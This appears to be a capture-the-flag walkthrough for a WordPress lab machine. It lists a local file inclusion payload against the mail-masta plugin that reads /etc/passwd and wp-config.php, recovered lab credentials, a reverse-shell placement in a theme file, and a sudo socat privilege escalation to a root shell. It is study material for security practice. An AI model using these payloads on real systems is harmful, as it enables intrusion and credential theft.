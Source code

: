# All in one
> EXPORT_IP :  10.10.216.98

## SCAN
 - nmap/inital

## Directory Enum
```
[Hidden]
: http://10.10.216.98/hackathons
: http://10.10.216.98/wordpress
```

## Wpscan Enum
 - wpscan --url http://{EXPORT_IP}
   - Result : wpscan.log 
 - Attack Point
   - mail-masta
   - exploit-db : https://www.exploit-db.com/exploits/40290
   - LFI : /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
   - wp-config.php
     - php://filter/convert.base64-encode/resource=../../../../../wp-config.php 


## Wp-admin Credential
```
elyana:H@ckme@123
```

## Reverse Shell
```
1.find php-revese-shell point
- Appearance
- theme Editor

2. location
> wordpress/wp-content/themes/twentytwenty/404.php

```

## USER ESCALATE
```
1. find elyana
> find / -user elyana -type f 2>/dev/null
> /etc/mysql/conf.d/private.txt
> elyana:E@syR18ght
```

## PRIVILGE ESCALATE
```
1. su elyana
> E@syR18ght

2. sudo -l -> socat

3. socat
- sudo socat stdin exec:/bin/sh
```
